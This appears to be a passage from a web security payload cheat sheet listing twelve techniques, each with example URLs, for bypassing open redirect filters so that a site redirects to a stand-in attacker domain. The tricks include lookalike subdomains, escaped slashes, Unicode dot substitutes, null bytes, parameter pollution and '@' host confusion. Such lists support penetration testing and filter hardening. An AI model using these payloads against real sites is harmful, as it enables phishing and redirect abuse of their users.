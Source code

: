 ## Filter Bypass

1. Using a whitelisted domain or keyword
```
target.com.evil.com
```

2. Using "//" to bypass "http" blacklisted keyword
```
//evil.com
```

3. Using "https:" to bypass "//" blacklisted keyword
```
https:evil.com
```

4. Using "\/\/" to bypass "//" blacklisted keyword (Browsers see \/\/ as //)
```
\/\/evil.com/
/\/evil.com/
```

5. Using "%E3%80%82" to bypass "." blacklisted character
```
/?redir=evil。com
/?redir=evil%E3%80%82com
```

6. Using null byte "%00" to bypass blacklist filter
```
//evil%00.com
```

7. Using parameter pollution
```
?next=target.com&next=evil.com
```

8. Using "@" character, browser will redirect to anything after the "@"
```
target.com@evil.com
target.com%40evil.com
```

9. Creating folder as their domain
```
http://www.yoursite.com/http://www.theirsite.com/
http://www.yoursite.com/folder/www.folder.com
```

10.  Using "?" characted, browser will translate it to "/?"
```
http://www.yoursite.com?http://www.theirsite.com/
http://www.yoursite.com?folder/www.folder.com
```

11. Host/Split Unicode Normalization
```
https://evil.c℀.example.com
```

12. Using parsing
```
http://ⓔⓥⓘⓛ.ⓒⓞⓜ
```